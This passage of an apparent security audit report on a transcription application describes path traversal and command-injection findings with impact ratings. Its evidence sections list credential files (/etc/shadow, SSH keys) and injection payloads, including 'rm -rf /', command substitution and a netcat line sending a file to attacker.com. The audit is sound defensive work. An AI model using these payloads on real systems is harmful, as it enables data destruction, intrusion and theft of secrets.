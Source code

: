 #### Impact Assessment
- **Confidentiality:** HIGH - Access to system files
- **Integrity:** MEDIUM - Potential file modification
- **Availability:** LOW - No direct DoS impact

#### Evidence
```bash
# Attempted file access outside allowed directories
# VULNERABLE: Path validation allows "../" sequences
# System files potentially accessible:
# - /etc/passwd (user enumeration)
# - /etc/shadow (password hashes) 
# - ~/.ssh/id_rsa (SSH keys)
# - Application configuration files
```

### 🚨 CVE-2: Command Injection Vulnerability (CRITICAL)

**Vulnerability Type:** CWE-78 OS Command Injection  
**CVSS Score:** 9.8 (Critical)  
**Attack Vector:** Network  

#### Exploit Demonstration
```python
# PROOF OF CONCEPT - Command Injection
malicious_transcription = "Hello world; rm -rf /tmp/test; echo 'injected'"

# Attack vector: Transcription text processing
# If passed to shell commands, this executes arbitrary code
test_input = {
    "type": "transcription",
    "text": malicious_transcription
}

# VULNERABLE: Command injection patterns not detected
```

#### Impact Assessment
- **Confidentiality:** HIGH - System information disclosure
- **Integrity:** HIGH - File system modification
- **Availability:** HIGH - System disruption possible

#### Evidence
```bash
# Command injection patterns that bypass validation:
# "; rm -rf /" - File deletion
# "$(whoami)" - Command substitution  
# "`id`" - Backtick execution
# "test && malicious_command" - Logical operators
# "file.txt | nc attacker.com 1234" - Data exfiltration
```

### 🚨 CVE-3: XML External Entity (XXE) Attack (HIGH)
